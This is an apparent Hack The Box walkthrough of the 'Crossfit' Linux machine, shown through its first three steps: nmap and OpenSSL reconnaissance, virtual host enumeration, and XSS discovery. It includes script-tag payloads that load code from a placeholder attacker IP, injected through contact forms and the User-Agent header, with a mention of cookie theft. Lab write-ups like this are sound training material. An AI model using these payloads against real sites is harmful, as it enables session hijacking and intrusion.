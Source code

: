 ```yaml
---
title: "Crossfit HTB - Insane Linux Box Walkthrough"
date: 2025-09-22T07:15:00Z
tags: ["insane-linux", "web", "xss", "cors", "ftp", "command-injection", "mysql", "privilege-escalation", "binary-exploitation", "symlink-attack"]
difficulty: ["insane"]
categories: ["HTB", "Linux"]
draft: false
description: "Complete walkthrough of Crossfit HTB machine featuring XSS exploitation, CORS bypass for subdomain enumeration, FTP shell uploads, command injection via vulnerable libraries, and privilege escalation through predictable binary exploitation"
---
```


# Crossfit HTB - Insane Linux Box Walkthrough

{{< youtube Z3Lj_YN0crc >}}

## Key Exploitation Steps and Techniques (Chronological Order)

Based on the transcript, the following outlines the main exploitation steps and techniques used to compromise the "Crossfit" machine on Hack The Box. I've focused on the core technical actions, omitting unrelated details like note-taking with Obsidian or tool installations (e.g., Flameshot). Steps are presented in the sequence they occurred in the walkthrough.

1. **Initial Reconnaissance (Nmap Scan)**
   - Performed a standard Nmap scan (`sudo nmap -sC -sV -oA nmap/crossfit [TARGET-IP]`) to identify open ports: 21 (FTP with SSL), 22 (SSH on Debian), and 80 (HTTP with Apache default page).
   - Grabbed SSL banner from FTP using OpenSSL (`openssl s_client -connect [TARGET-IP]:21 -starttls ftp`), revealing subdomains: stir.crossfit.htb and gymclub.crossfit.htb.
   - Added subdomains to `/etc/hosts` for virtual host resolution.

2. **Virtual Host Enumeration**
   - Accessed gymclub.crossfit.htb, which loaded a custom website (Apache default on main IP).
   - Ran Gobuster for virtual hosts (`gobuster vhost -u http://crossfit.htb -w /opt/SecLists/Discovery/DNS/subdomains-top1million-20000.txt -v -o gobuster/vhost.out`), but no new hosts found initially.
   - Enumerated website for user inputs (contact forms on index.php, blog-single.php, contact.php) and potential usernames/emails from pages (e.g., Becky Taylor, Noah, Evelyn Fields, Leroy Guzman; emails like info@crossfit.htb).

3. **XSS Discovery and Initial Exploitation**
   - Tested contact forms for XSS by injecting payloads (e.g., `<script src="http://[ATTACKER-IP]/contact.php"></script>`) in fields like name, email, comment.
   - Forms detected XSS and generated security reports, but the report viewer page reflected the User-Agent header without sanitization.
   - Used Burp Suite Repeater to inject XSS in User-Agent (e.g., `<script src="http://[ATTACKER-IP]/useragent.php"></script>`), confirming execution via callback to attacker's HTTP server.
   - Chained XSS to load external JavaScript (e.g., document.location for cookie theft, but no cookies found).
